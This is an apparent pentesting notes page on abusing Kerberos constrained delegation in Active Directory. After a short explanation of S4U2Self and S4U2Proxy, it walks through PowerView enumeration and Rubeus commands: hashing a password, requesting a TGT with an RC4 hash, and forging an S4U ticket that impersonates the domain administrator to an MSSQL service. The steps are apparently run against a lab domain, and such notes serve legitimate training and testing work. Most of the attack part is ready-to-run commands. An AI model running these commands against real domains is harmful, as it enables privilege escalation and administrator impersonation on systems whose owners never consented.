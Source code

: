 # Kerberos - Constrained Delegation

Constrained delegation is an updated and safer version of Kerberos delegation released in 2003.

The main goal of Kerberos delegation is to solve the double-hop issue.
While unconstrained delegation allowed the service to perform authentication to anything in the domain, constrained delegation limits the delegation scope.

The kerberos protocol does not natively support constrained delegation by default, there is two extensions for this feature : S4U2Self and S4U2Proxy. 
Together, these extension solve the double-hop issue and limit access to only the desired backend service.

1. We can locate any instances of constrained delegation using PowerView :

```PowerShell
Get-DomainUser -TrustedToAuth
```

Rubeus includes S4U extension support.
Kekeo by Mimikatz author also provides access to S4U extension above.

2. If we only have the clear text password we can use the hash command in Rubeus to generate the NTLM hash :

```PowerShell
.\Rubeus.exe hash /password:lab
```

3. We can generate a TGT with Rubeus.

```PowerShell
.\Rubeus.exe asktgt /user:v0lk3n /domain:dev.sinhack1.com /rc4:3252D26CDF84D7A70E2EB3B9F05C425E
```

4. With the Base64-encoded TGT for v0lk3n, we are ready to invoke the S4U extensions.

```PowerShell
PS C:\Tools> .\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.dev.sinhack1.com:1433 /ptt
```
